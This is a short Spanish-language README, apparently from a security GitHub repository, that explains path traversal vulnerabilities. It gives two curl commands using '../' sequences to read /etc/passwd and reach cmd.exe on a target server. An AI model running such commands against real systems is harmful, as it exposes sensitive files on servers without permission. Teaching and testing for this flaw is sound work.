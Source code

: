 ## directoriotrasversal

Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
## ejemplos simples para explotar la vulnerabilidade de directorio trasversal o path traversal:

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

<img style="float:left" alt="Path traversal simple" src="https://github.com/hackingyseguridad/directoriotraversal/blob/master/pathtraversal.png">

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

## diccionario path traversal 





## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
